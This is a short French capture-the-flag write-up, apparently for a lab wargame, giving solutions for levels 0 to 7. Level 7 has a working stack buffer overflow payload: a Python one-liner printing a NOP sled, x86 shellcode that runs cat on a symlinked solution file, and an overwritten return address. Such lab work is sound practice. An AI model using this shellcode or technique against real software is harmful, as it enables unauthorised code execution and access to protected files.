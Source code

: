# Pour les solutions du level 0 -5:

-Tout d'abord,je suis entre dans /home/level puis j'execute la commande grep -rn "solution" et les solotion du level 0,1,2,3,5 s'affiche .Pour le level 4 j'ai change de l'emplacement.
Je suis entre dans => ~ puis /home/level/04_kwisatz et dans ce dossier il y a deux fichiers qui s'appelent README.txt ,README2.md.La solution du level 4 se trouve dans le README2.md(chmod +r)

# Pour le level 07:
	-On crée un lien symbolique vers la solution.txt en direction vers le lien du travail.
*/ ln -s /home/level/tropic/7/solution.txt ./lk
	-Puis, on execute ce script python:
*/ `python -c "print '\x90'*(312-33)+'1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
